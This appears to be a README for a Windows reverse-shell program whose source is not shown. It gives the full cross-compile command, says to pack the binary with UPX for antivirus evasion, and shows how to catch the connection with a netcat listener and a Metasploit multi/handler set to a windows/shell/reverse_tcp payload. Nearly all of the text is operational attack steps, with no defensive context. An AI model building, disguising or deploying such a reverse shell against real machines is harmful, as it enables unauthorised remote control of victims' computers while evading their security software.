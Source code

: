 # Compile it
````
i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
````
## After Compile the exe file then use UPX (https://upx.github.io/) for (AV) Evasion


# Start the netcat Listener
````
 nc -lvnp <port number>
 ````
 
 # Metasploit Handler
 ````
  use exploit/multi/handler
  set PAYLOAD windows/shell/reverse_tcp
  set LHOST <Local IP>
  set LPORT <Local Port>
  exploit -j -z 
  ````
<a href="https://ibb.co/BK4wqJq"><img src="https://i.ibb.co/84zX6w6/Screenshot-from-2020-11-30-12-24-52.png" alt="Screenshot-from-2020-11-30-12-24-52" border="0"></a>
